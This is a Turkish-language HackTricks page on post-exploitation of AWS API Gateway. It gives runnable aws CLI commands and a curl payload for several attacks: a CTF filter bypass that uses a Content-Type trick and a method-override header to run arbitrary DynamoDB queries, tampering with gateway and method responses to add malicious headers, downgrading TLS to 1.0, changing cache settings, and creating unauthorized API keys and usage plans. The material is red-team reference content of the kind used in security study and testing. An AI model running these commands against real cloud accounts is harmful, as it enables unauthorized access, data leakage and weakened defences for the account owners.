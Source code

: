 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## API Gateway

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Açığa Çıkmamış API'lere Erişim

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) adresinde `com.amazonaws.us-east-1.execute-api` servisi ile bir endpoint oluşturabilirsiniz, bu endpoint'i erişiminizin olduğu bir ağda (potansiyel olarak bir EC2 makinesi aracılığıyla) açığa çıkarabilir ve tüm bağlantılara izin veren bir güvenlik grubu atayabilirsiniz.\
Daha sonra, EC2 makinesinden endpoint'e erişebilir ve daha önce açığa çıkmamış olan gateway API'sini çağırabilirsiniz.

### İstek Gövdesi Passthrough'u Atlatma

Bu teknik [**bu CTF yazısında**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) bulunmuştur.

[**AWS dokümantasyonunda**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) `PassthroughBehavior` bölümünde belirtildiği gibi, varsayılan olarak, **`WHEN_NO_MATCH`** değeri, isteğin **Content-Type** başlığını kontrol ederken, isteği dönüşüm yapmadan arka uca iletecektir.

Bu nedenle, CTF'de API Gateway, `Content-Type: application/json` ile bir istek gönderildiğinde bir yanıt içinde bayrağın sızdırılmasını **önleyen** bir entegrasyon şablonuna sahipti:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Ancak, **`Content-type: text/json`** ile bir istek göndermek bu filtreyi engeller.&#x20;

Son olarak, API Gateway sadece `Get` ve `Options`'a izin verdiğinden, gövdede sorgu ile bir POST isteği göndererek ve `X-HTTP-Method-Override: GET` başlığını kullanarak herhangi bir sınırlama olmadan rastgele bir dynamoDB sorgusu göndermek mümkündü:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

**Enumeration** bölümünde, anahtarların **kullanım planını nasıl elde edeceğinizi** görebilirsiniz. Eğer anahtara sahipseniz ve bu anahtar **ayda X kullanım ile sınırlıysa**, **sadece kullanarak bir DoS saldırısına neden olabilirsiniz**.

**API Key** sadece **`x-api-key`** adlı bir **HTTP başlığı** içine **dahil edilmelidir**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir Gateway Response'u, hassas bilgileri sızdıran veya kötü amaçlı scriptler çalıştıran özel başlıklar veya yanıt şablonları içerecek şekilde değiştirebilir**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potansiyel Etki**: Hassas bilgilerin sızması, kötü amaçlı komut dosyalarının çalıştırılması veya API kaynaklarına yetkisiz erişim.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway aşamasını farklı bir aşamaya yönlendirmek veya önbellek ayarlarını değiştirerek önbelleğe alınmış verilere yetkisiz erişim sağlamak için değiştirebilir**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potansiyel Etki**: Yetkisiz erişim ile önbelleğe alınmış verilere ulaşma, API trafiğini kesintiye uğratma veya engelleme.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway REST API metodunun yanıtını, hassas bilgileri sızdıran veya kötü amaçlı komut dosyalarını çalıştıran özel başlıklar veya yanıt şablonları içerecek şekilde değiştirebilir**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potansiyel Etki**: Hassas bilgilerin sızması, kötü amaçlı komut dosyalarının çalıştırılması veya API kaynaklarına yetkisiz erişim.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **API Gateway REST API ayarlarını değiştirerek loglamayı devre dışı bırakabilir veya minimum TLS sürümünü değiştirebilir, bu da API'nin güvenliğini potansiyel olarak zayıflatabilir**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potansiyel Etki**: API'nin güvenliğini zayıflatmak, yetkisiz erişime veya hassas bilgilerin açığa çıkmasına neden olabilir.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` ve `apigateway:CreateUsagePlanKey` izinlerine sahip bir saldırgan, **yeni API anahtarları oluşturabilir, bunları kullanım planlarıyla ilişkilendirebilir ve ardından bu anahtarları API'lere yetkisiz erişim için kullanabilir**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potansiyel Etki**: API kaynaklarına yetkisiz erişim, güvenlik kontrollerinin atlatılması.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

{% hint style="success" %}
AWS Hacking öğren ve pratik yap:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğren ve pratik yap: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekle</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol et!
* **💬 Discord grubuna** [**katıl**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katıl ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **bizi takip et.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaş** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}
